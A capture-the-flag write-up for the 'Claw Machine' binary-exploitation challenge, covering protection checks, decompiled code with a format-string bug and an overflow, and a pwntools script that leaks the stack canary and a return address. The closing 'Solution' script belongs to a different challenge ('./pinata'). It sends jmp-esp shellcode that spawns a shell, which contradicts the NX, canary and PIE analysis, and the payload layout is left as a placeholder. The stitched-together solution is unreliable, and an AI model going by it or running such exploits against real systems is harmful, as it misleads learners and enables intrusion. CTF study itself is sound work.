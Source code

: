 
# Synopsis

Claw Machine is an Medium difficulty challenge that features bypassing canaries and dealing with PIE to call a function that reads the flag (ret2win).

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	
Full RELRO   Canary found      NX enabled   PIE enabled          No RPATH   RW-RUNPATH   90 Symbols	  No
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅      | Disables **code execution** on stack |
| **PIE**    | ✅       | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

Running `file`, we also notice the the binary is `64-bit` and `dynamically linked`.

```console
➜  claw_machine: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0dcdc3f9bead6c2a31478a42c3a9e13e478a230f, not stripped
```

The interface of the program looks like this:

```console
➜  ./claw_machine
▛▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▜
▌▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▐
▌▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▐
█            |             █
█            |             █
█            |             █
█         /▔▔ ▔▔\          █
█        |       |         █
█         \     /          █
█                          █
█                          █
█        __________        █
█        |flag.txt|        █
████████████████████████████

Press '1' to move left, '2' to move right, '9' to grab the prize!

>>
```
After attempting to grab the prize no matter how much you move you will break the box and be offered to rate the game:

```console
▛▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▜
▌▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▐
▌▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▐
█            |             █
█            |             █
█            |             █
█            |             █
█            |             █
█            |             █
█         /▔▔ ▔▔\          █
█        |       |         █
█         \     /          █
█        |flag.txt|        █
████████████████████████████

[-] You broke the box and couldn't get the prize!

Would you like to rate our game? (y/n)

>> y

Enter your name: TESTNAME

Thank you for giving feedback TESTNAME

Leave your feedback here: FEEDTEST

Thank you for playing!
```
Upon agreeing to rate the game you can insert your name and your feedback.

### Disassembly ⛏️

Taking a look at the psuedocode generated by ida for the function that handles feedback (fb) we can first identify a string format vuln, perhaps allowing us to leak PIE or Canaries?

```C
unsigned __int64 fb()
{
  __int16 buf; // [rsp+Dh] [rbp-73h] BYREF
  char v2; // [rsp+Fh] [rbp-71h]
  char format[8]; // [rsp+10h] [rbp-70h] BYREF
  __int64 v4; // [rsp+18h] [rbp-68h]
  char v5; // [rsp+20h] [rbp-60h]
  __int64 v6[9]; // [rsp+30h] [rbp-50h] BYREF
  unsigned __int64 v7; // [rsp+78h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  buf = 0;
  v2 = 0;
  *(_QWORD *)format = 0LL;
  v4 = 0LL;
  v5 = 0;
  memset(v6, 0, 64);
  printf("Would you like to rate our game? (y/n)\n\n>> ");
  read(0, &buf, 2uLL);
  if ( (_BYTE)buf == 121 || (_BYTE)buf == 89 )
  {
    printf("\nEnter your name: ");
    read(0, format, 0x10uLL);
    printf("\nThank you for giving feedback ");
    printf(format);
    printf("\nLeave your feedback here: ");
    read(0, v6, 0x5EuLL);
  }
  puts("\nThank you for playing!\n");
  return __readfsqword(0x28u) ^ v7;
}
```
Lets attempt to overflow the buffer:

```console
Enter your name: no

Thank you for giving feedback no

Leave your feedback here: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Thank you for playing!

*** stack smashing detected ***: <unknown> terminated
zsh: IOT instruction (core dumped)  ./claw_machine
```
Shit. Canaries :)

Also did some testing "Off camera" and found out that you have 72 bytes before hitting the canary :)

### Debugging 

Ok, time to go hunt for some canaries
In linux canaries end in 00. This makes them pretty easy to spot. to figure out which values correspond to a canary i used a quick python script:
```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./claw_machine', checksec=False)

# Let's fuzz x values
for i in range(300):
    try:
        if True:
            # Create process (level used to reduce noise)
            p = process(level='error')
            p.recvuntil(b">> ")
            p.sendline(b'9')
            p.recvuntil(b">> ")
            p.sendline(b'y')
            p.recvuntil(b': ')
            p.sendline('%{}$p'.format(i).encode())
            p.recvline()
            result = p.recvline().decode()
            if result:
                print(str(i) + ': ' + str(result[result.index("k",20)+1:]).strip()) #i know this is made badly... Leave me alone.
    except EOFError:
        pass
#  Canaries will look like this:
#  0x5020c933db88ab00
#  0x459415b8e048d00
#  makes em really easy to see
```
after running this script a couple times i managed to not only find that a canary sits on the 21st value on the stack (%21$p) but also that we have the address of Main+53 at the 23rd value on the stack (%23$p)
the address of main+53 is on the stack due to it being the return value after fd is done :)

Since we know that the return value is sits 2 spots after the canary we know that our payload should look something like this:

Overflow

# Solution

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './pinata' 

LOCAL = False

if LOCAL:
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)

sc = asm(shellcraft.execve('/bin/sh'))

payload  = b'\xff\xe4'             # jmp esp opcode
payload += b'\x90'*22
payload += p64(0x00000000004016ec) # jmp rax
payload += sc 

r.recvuntil('>> ')
r.sendline(payload)

pause(1)
r.sendline('cat flag*')
print(f'\nFlag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```

```console
➜  htb git:(main) ✗ python solver.py 

Flag --> HTB{f4k3_fl4g_f0r_writ3up}}
```
